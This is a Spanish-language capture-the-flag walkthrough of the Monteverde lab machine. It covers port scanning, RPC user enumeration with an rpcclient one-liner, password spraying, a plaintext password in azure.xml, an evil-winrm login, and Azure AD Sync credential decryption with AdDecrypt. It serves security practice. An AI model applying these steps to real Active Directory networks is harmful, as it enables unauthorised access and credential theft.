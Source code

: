 #ActiveDirectory #medium #windows #tecnicas 
### Ping

```python
ping -c 1 10.10.10.172
PING 10.10.10.172 (10.10.10.172) 56(84) bytes of data.
64 bytes from 10.10.10.172: icmp_seq=1 ttl=127 time=272 ms

--- 10.10.10.172 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 271.658/271.658/271.658/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 10:01 EDT
Nmap scan report for 10.10.10.172
Host is up (0.15s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-22 14:02:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49734/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-22T14:03:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.49 seconds
```

### Crackmapexec 
haciendo una pequeña enumeración con crackmapexec por el servicio `smb` podemos identificar el sistema operativo de la maquina, el nombre y el dominio

```python
SO > Windows

Nombre > MONTEVERDE

DOMINIO > MEGABANK.LOCAL
```

![[Pasted image 20240722100520.png]]

`crackmapexec`
intentamos enumerar los recursos compartidos pero no tenemos permisos
![[Pasted image 20240722101054.png]]

### Enumeración del servicio smb
haciendo enumeraciones con 2 herramientas diferentes efectivamente no podemos enumerar el servicio smb
![[Pasted image 20240722101319.png]]

### rpcclient
haciendo la enumeración con `rpcclient` podemos hacer una enumeración de usuarios y de grupos. pero no podemos ver el usuario ni el grupo administrador
![[Pasted image 20240722101738.png]]

`Capturamos los usuarios`

```python
rpcclient -U "" 10.10.10.172 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```

con el siguiente comando podemos enumerar los usuarios y limpiamos la `query` para que nos entregue el output limpio. obteniendo estos usuarios podemos intentar realizar un `ASREPRoast attack` 
![[Pasted image 20240722102730.png]]

### impacket-GetNPUsers
realizamos un ataque `ASREPRoast` pero no tenemos éxito. los usuarios no tienen configurado la opción `doesn't have UF_DONT_REQUIRE_PREAUTH set`
![[Pasted image 20240722103331.png]]

### crackmapexec
intentamos una autenticación por smb probando los usuarios que hemos conseguido. y usando los mismos usuarios como contraseñas obtenemos unas credenciales validas del usuario `SABatchJobs`
![[Pasted image 20240722103951.png]]

### smbmap
realizamos una validación con crackmapexec y nos aseguramos que podemos enumerar los recursos compartidos y con smbmap podemos listar sobre los recursos que tenemos permisos de lectura
![[Pasted image 20240722104616.png]]

`azure_uploads`
![[Pasted image 20240722105257.png]]

`Users$`
en este recurso compartido podemos encontrar otros directorios así que seguiremos enumerando
![[Pasted image 20240722105526.png]]

`azure.xml`
hemos encontrado un archivo `.xml` el cual puede ser muy interesante
![[Pasted image 20240722110858.png]]

`azure.xml`
en el archivo xml tenemos una contraseña que vamos a validar con el grupo de usuarios que ya tenemos
![[Pasted image 20240722121613.png]]

`crackmapexec`
validamos la nueva contraseña con el listado de usuarios que teníamos y obtenemos un nuevo usuario
![[Pasted image 20240722122128.png]]

### evil-winrm
logramos obtener una conexión con las credenciales que hemos encontrado 
![[Pasted image 20240722124558.png]]

### Escalada de privilegios
pertenecemos al grupo `Azure Admins` que es un grupo del dominio
![[Pasted image 20240722125101.png]]

`Microsoft Azure AD Sync`
esto es importante ya que podemos buscar vulnerabilidades que estén relacionadas a esto e intentar identificar si alguna es importante para nuestra explotación 
![[Pasted image 20240722125452.png]]

### AdDecrypt
investigando en internet encontramos un exploits el cual esta en el siguiente repositorio [AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt/releases) descargamos y descomprimimos el archivo
![[Pasted image 20240722130105.png]]

`upload`
en la maquina victima vamos a subir los archivos `AdDecrypt.exe` y `mcrypt.dll` 
![[Pasted image 20240722130512.png]]

`"C:\Program Files\Microsoft Azure AD Sync\Bin”` 
después de subir los archivos debemos dirigirnos a la ruta contemplada para poder realizar este ataque ya que de lo contrario no tendremos éxito. 

![[Pasted image 20240722130958.png]]


`debemos ejecutar este comando haciendo referencia a la ru`
```python
C:\Windows\Temp\Priv\AdDecrypt.exe -FullSQL
```

![[Pasted image 20240722131842.png]]




### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
